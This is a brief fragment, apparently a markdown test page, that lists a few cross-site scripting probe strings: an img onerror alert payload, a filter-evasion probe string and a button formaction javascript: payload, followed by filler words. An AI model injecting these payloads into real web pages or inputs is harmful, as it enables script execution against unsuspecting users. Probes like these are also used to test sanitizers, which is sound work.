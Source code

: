 # -b-
1:
<img src=x onerror=alert(1)>
2:
<img src=<'';!--"<XSS>=&{()}>
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
test
asdadadada
hash